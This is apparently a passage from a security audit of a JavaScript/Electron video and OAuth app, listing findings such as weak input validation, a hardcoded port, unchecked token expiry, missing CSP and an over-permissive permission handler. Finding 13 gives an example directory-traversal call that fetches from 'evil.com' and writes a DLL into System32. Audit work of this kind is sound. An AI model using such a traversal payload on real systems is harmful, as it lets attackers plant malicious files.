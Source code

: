 ### 11. Insufficient Input Validation in Validators
**Location**: `utils/validators.js:1-288`
**Issues**:
- No max length checks (DoS via massive strings)
- No content sanitization
- Allows arbitrary JSON structure if fields pass basic checks

### 12. Express Server Port Hardcoded Without Conflict Handling
**Location**: `main.js:19-20`
```javascript
const PORT = 3000; // ❌ Hardcoded, no fallback
```
**Issue**: If port 3000 is in use, OAuth callbacks fail silently

### 13. Download File Function Has Directory Traversal Risk
**Location**: `handlers/video-handlers.js:20-46`
```javascript
function getTempPath(ext) {
  const tmpdir = os.tmpdir();
  const hash = crypto.randomBytes(6).toString("hex");
  return path.join(tmpdir, `video_${hash}.${ext}`); // ❌ ext not validated
}

// Can be called with:
await downloadFile("http://evil.com/malware/../../../Windows/System32/evil.dll");
```

### 14. Video Processing Without File Type Validation
**Location**: `handlers/video-handlers.js:67-100`
**Issue**: Accepts any URL, no MIME type checking, can process malicious files

### 15. Token Expiration Not Enforced
**Location**: `tokenStore.js:95-105`
```javascript
function saveToken(platform, token, expiresIn = null) {
  // expiresIn is saved but never checked!
  tokens[platform] = {
    token: encrypt(token),
    expiresAt: expiresIn ? Date.now() + expiresIn * 1000 : null,
  };
}
```

### 16. Missing CSP Headers
**Location**: `index.html` (no CSP defined)
**Issue**: No Content Security Policy allows inline scripts and arbitrary resource loading

### 17. Insecure Permission Handler
**Location**: `main.js:42-48`
```javascript
mainWindow.webContents.session.setPermissionRequestHandler(
  (webContents, permission, callback) => {
    const deniedPermissions = ["media", "mediaKeySystem", "geolocation"];
    if (deniedPermissions.includes(permission)) {
      return callback(false);
    }
    callback(true); // ❌ Allows ALL other permissions by default!
  }
);
```
**Issue**: Should use allowlist, not denylist
